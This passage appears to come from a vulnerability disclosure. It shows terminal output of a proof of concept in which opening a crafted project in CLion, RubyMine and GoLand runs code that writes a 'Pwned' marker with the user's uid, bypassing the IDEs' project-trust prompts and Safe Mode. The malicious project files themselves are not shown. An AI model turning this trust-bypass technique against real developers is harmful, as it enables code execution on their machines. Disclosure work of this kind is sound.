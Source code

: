 ```plain

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

[... Clean up some things, else CLion thinks it's a Gradle project ...]

% rm -rf poc/.idea poc/build.gradle

% clion poc

[... CLion starts as an X application ...]
[... CLion pauses during startup and asks "Trust and Open CMake Project?" ...]
[... Choose "Preview in Safe Mode" ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

[... Clean up some things, else RubyMine gets confused ...]

% rm -rf poc/.idea

[... RubyMine starts as an X application ...]
[... RubyMine shows a toaster popup asking "Trust project?" ...]
[... Ignore the popup ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

% goland poc

[... GoLand starts as an X application ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)
```

## Recommended fix for IDEs
